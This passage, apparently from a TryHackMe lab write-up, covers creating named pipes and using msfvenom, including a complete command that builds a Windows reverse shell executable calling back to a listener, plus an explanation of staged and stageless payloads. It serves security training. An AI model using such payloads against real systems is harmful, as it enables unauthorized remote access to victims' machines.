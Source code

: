 1. What command can be used to create a named pipe in Linux?

`mkfifo`

2. Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

`No answer needed`

## Task 9 msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for, primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![](https://i.imgur.com/JkWeFLq.png)

Here we are using a payload and four options:

* `-f <format>`
  * Specifies the output format. In this case that is an executable (exe)
* `-o <file>`
  * The output location and filename for the generated payload.
* `LHOST=<IP>`
  *  Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10/). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).
*  `LPORT=<port>`
   *  The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

**Staged vs Stageless**

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

* Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
* Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
